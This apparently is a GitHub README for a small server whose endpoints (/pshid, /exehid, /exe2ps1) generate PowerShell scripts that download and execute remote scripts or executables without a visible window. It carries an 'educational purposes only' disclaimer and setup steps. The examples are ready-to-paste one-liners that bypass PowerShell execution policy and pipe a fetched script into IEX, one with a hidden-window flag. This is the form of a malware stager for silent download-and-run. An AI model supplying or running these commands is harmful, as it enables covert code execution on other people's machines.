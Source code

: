 This is a server which runs utils for various project

> **Disclaimer** \
> This project shall be used for **educational purposes only** \
> I (the author) take no responsibility or liability related to its usage.
> Any illegal activities are strictly forbidden.

# Endpoints

## [/pshid](https://vercelutilsserver.gymthun.com/exehid)

returns a powershell script, downloads and executes a powershell script without a window


example: [`/pshid?url=is.gd/tuioh`](https://vercelutilsserver.gymthun.com/pshid?url=is.gd%2Ftuioh)

which can be executed with 
```shell
powershell -ep ByPass "IEX(iwr('https://vercelutilsserver.gymthun.com/pshid?url=is.gd%2Ftuioh'))"
```

## [/exehid](https://vercelutilsserver.gymthun.com/exe2ps1)

downloads and runs an executable via pshid


example: [`/exehid?url=https://www.python.org/ftp/python/3.12.4/python-3.12.4.exe`](https://vercelutilsserver.gymthun.com/exehid?url=https%3A%2F%2Fwww.python.org%2Fftp%2Fpython%2F3.12.4%2Fpython-3.12.4.exe)

which can be executed with 
```shell
powershell -ep ByPass "IEX(iwr('https://vercelutilsserver.gymthun.com/exehid?url=https%3A%2F%2Fwww.python.org%2Fftp%2Fpython%2F3.12.4%2Fpython-3.12.4.exe'))"
```

## [/exe2ps1](https://vercelutilsserver.gymthun.com/exe2ps1)

<details>
<summary>Details</summary>

returns a powershell script, which downloads and runs an executable from `param:url` with all `param:arg` passed


example: [`/exe2ps1?url=https://www.python.org/ftp/python/3.12.4/python-3.12.4.exe`](https://vercelutilsserver.gymthun.com/exe2ps1?url=https%3A%2F%2Fwww.python.org%2Fftp%2Fpython%2F3.12.4%2Fpython-3.12.4.exe)

which can be executed with 
```shell
powershell -ep ByPass -w h "IEX(iwr('https://vercelutilsserver.gymthun.com/exe2ps1?url=https%3A%2F%2Fwww.python.org%2Fftp%2Fpython%2F3.12.4%2Fpython-3.12.4.exe'))"
```
</details>

# Building
assumes having NodeJS and git-cli installed

### clone this repo
```shell
git clone https://github.com/kaliiiiiiiiii/vercel_utils_server
cd vercel_utils_server
```

### install packages
```shell
npm install
```

### run development server
```shell
npm run dev
```


# Acknowledgments
Inspiration, code snippets, etc.

- [`WindowStyle -Hidden` not being respected workaround](https://github.com/microsoft/terminal/issues/12464#issuecomment-1499119834)
